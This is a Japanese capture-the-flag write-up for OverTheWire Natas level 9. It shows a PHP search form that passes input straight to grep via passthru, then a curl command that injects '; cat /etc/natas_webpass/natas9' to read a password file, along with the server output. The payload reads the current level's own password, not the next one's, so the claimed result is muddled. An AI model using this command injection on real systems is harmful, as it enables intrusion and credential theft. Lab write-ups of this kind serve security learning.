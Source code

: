 # NATAS9

- Username: natas9
- Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
- URL: http://natas9.natas.labs.overthewire.org

```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org
```
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
ヒントに
```
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```
と書いてあります。  
ブラウザで`http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org/index-source.html`にアクセスします。
```html
...
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
...
```
コードをみると`$key`が空文字でなければ`dictionary.txt`の中に`$key`の値があるか判断しています。  
想定するコードは以下の通りです。()
```
$ grep -i ; cat /etc/natas_webpass/natas9 dictionary.txt
```
なので`key=; cat /etc/natas\_webpass/natas9`となるようにします。  
urlencodeするために`urlencode`という関数を定義します。
```sh
function urlencode {
  echo "$1" | nkf -WwMQ | sed 's/=$//g' | tr = % | tr -d '\n'
}
```

```
$ urlencode "; cat /etc/natas\_webpass/natas9"
```
```
%3B%20cat%20%2Fetc%2Fnatas%5C%5Fwebpass%2Fnatas9
```
```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl \
       -d "needle=%3B%20cat%20%2Fetc%2Fnatas%5C%5Fwebpass%2Fnatas9&submit=Search" \
          http://natas9.natas.labs.overthewire.org |
  head -n 30
```
```
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

African
Africans
Allah
Allah's
American
Americanism
Americanism's
Americanisms
```
これでpassword(`W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`)を得ることができました。
